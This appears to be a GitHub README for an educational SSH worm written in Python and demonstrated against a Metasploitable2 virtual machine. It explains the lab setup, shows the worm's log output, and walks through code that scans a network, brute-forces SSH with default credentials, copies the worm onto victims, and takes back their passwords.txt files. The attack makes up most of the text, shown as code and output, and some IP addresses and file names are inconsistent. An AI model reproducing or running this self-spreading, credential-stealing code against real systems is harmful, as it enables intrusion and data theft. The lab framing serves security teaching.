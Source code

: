 # Worm

Our **worm** is implemented in the file `worm.py`. It tries to spread over the selected network via **SSH** connection and copy itself on the remote host. If the victim has a file **passwords.txt** in the home directory, it will obtain the file and send it back to the system of the attacker.

#### Demonstration of behavior

A valid infrastructure needs to be setup for this example. We need at least two hosts on the same network. To do this, it is recommended to setup two **virtual machines**, one for the attacker and one for the victim. To learn more about virtual machines, see [the guide to virtual machines](https://www.lifewire.com/virtual-machine-4147598). A free and popular virtualization tool is [Oracle VM VirtualBox](https://www.virtualbox.org/). For the system of the victim use [Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/) (a simple Linux VM often used for demostration of security vulnerabilities). Once you create both VMs, to connect them to the same network in VirtualBox go to _Setting->Network->AdapterN->Attached to_ and select Internal network. This must be done for both VMs.

Now run both systems and log in. The default credentials on the **Metasploitable2** are 
```
user: msfadmin
pass: msfadmin
```
Make sure that you have this repo cloned on the system of the attacker. The last thing we have to do is to assign valid **IP addresses** to both machines. This can be done with the following command:
```
ip addr add [IP addr]/24 dev [Interface]
```
Assign **198.168.0.3** to the victim and **168.168.0.2** to the attacker. To make sure you have done everything correctly, make the systems ping each other.
```
Victim:   ping 198.168.0.2
Attacker: ping 198.168.0.3
```
If you can see the response, everything is fine and we can proceed to the actual demonstration.

Make a simple file on the victim's system containing something like the following text and name it **passwords.txt**. This represents private file of the user on the vulnerable system.
```
My social media credentials
---------------------------
user: user
pass: mysecurepassword
```

Finally, we can execute our worm on the system of the attacker (`./worm.py`). This worm will try to access each host on the network and log in via **SSH**. To learn more about **SSH** see [the guide to SSH](https://medium.com/@Magical_Mudit/understanding-ssh-workflow-66a0e8d4bf65). If it succeeds, it copies itself on the vulnerable system and steals the file **passwords.txt** if the user has one. If everything was done correctly, you should see the following log of the worm. It has tried to log in to hosts **198.168.0.1** and **198.168.0.2** with various credentials and failed. But it has successfully connected to **2 users** on the system **198.168.0.3** and stole the password file from one of them. You should see this file in the same directory on the system of the attacker.

```
DEBUG:root:Trying to spread on the remote host: 198.168.0.1
DEBUG:root:The remote host refused connection with credentials user,user.
DEBUG:root:The remote host refused connection with credentials root,root.
DEBUG:root:The remote host refused connection with credentials msfadmin,msfadmin.

DEBUG:root:Trying to spread on the remote host: 198.168.0.2
DEBUG:root:The remote host refused connection with credentials user,user.
DEBUG:root:The remote host refused connection with credentials root,root.
DEBUG:root:The remote host refused connection with credentials msfadmin,msfadmin.

DEBUG:root:Trying to spread on the remote host: 198.168.0.3
DEBUG:root:The worm is succesfully connected to the remote host [user, user].
DEBUG:root:The victim did not have passwords.txt
DEBUG:root:The remote host refused connection with credentials user,user.
DEBUG:root:The remote host refused connection with credentials root,root.
DEBUG:root:The worm is succesfully connected to the remote host [msfadmin, msfadmin].
DEBUG:root:The victim had passwords.txt
...
```

The creation of **worm** itself is very simple process as it is described below and anyone can do it just with a basic knowledge of programming and understandment of networking. That's why we should keep our systems updated, secured and credentials strong.

#### How does it work?

- Firstly, we create our **worm** and pass it a **network address** representing the network, on which it should spread.
  ```python
  worm = Worm('198.168.0.0')
  ```
- Then we call function _spread_via_ssh_, which tries to connect to each host on the network, establish an **SSH** connection and spread itself (while stealing the password file).
  ```python
  worm.spread_via_ssh()
  ```
- At the beginning, this method creates an **SSHClient** from _paramiko_ module that would help us to create the connection.
  ```python
  ssh = paramiko.SSHClient()
  ssh.get_missing_host_key_policy(paramiko.AutoAddPolicy())
  ```
- Then it iterates over all host addresses on the network (implemented as generator _generate_addresses_on_network_). The worm contains property _credentials_, which represents combinations of usernames and passwords that the worm is willing to try. That means that it will try to login via **SSH** 3 times on each host. **SSH** uses port 22.
  ```python
  for remote_address in self.generate_addresses_on_network():
      for user, passw in self.credentials:
          try:
              ssh.connect(remote_address, port=22, username=user, password=passw)
              ...
  ```
- If the connection fails, it is captured as an exception and the worm continues with another user or host. However, if the connection is established (as in the case of **198.162.0.3**), we can create an **SCP client** that will transmit our files. To learn more about **SCP**, see [the guide to SCP](https://en.wikipedia.org/wiki/Secure_copy).
  ```
  scp_client = scp.SCPClient(ssh.get_transport())
- Now we can execute file transmition commands. One will obtain the password file and the second one will send the worm to the remote host. A name of the file is obtained from the system arguments.
  ```python
  scp_client.get('password.txt')
  scp_client.put(sys.argv[0])
  ```
